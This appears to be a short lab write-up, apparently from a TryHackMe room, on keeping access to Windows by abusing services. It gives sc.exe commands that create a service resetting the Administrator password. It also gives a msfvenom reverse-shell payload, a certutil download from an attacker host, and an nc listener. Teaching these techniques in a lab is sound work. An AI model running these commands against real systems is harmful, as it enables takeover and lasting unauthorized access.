 There are two ways we can abuse services to establish persistence: 
- Create a new service
- Modify an existing one 

#### Create and Start a Service name `THMservice`
The command below ***creates and starts a service*** named `THMservice`, ***resetting the Administrator's password*** to `Password123`.
```cmd
sc.exe create THMservice binPath= "net user Administrator Password123" start= auto
sc.exe start THMservice
```
- **`Note: There must be a space after each equal sign for the command to work.`**

---
#### We could also create a reverse shell and associate it with the created service.
```bash
msfvenom -p windows\x64\shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe-service -o new-service.exe
```

#### Copy the executable and point the service's `binPath` to it
**Attacker**
```bash
python3 -m http.server
```

**Victim**
```cmd
cd c:\windows
certutil -urlcache -split -f http://<attacker-ip>:8000/new-service.exe
```

```cmd
sc.exe create THMservice2 binPath= "C:\Windows\new-service.exe" start= auto
sc.exe start THMservice2
```

**Create a listener**
```bash
nc -nvlp 4444
```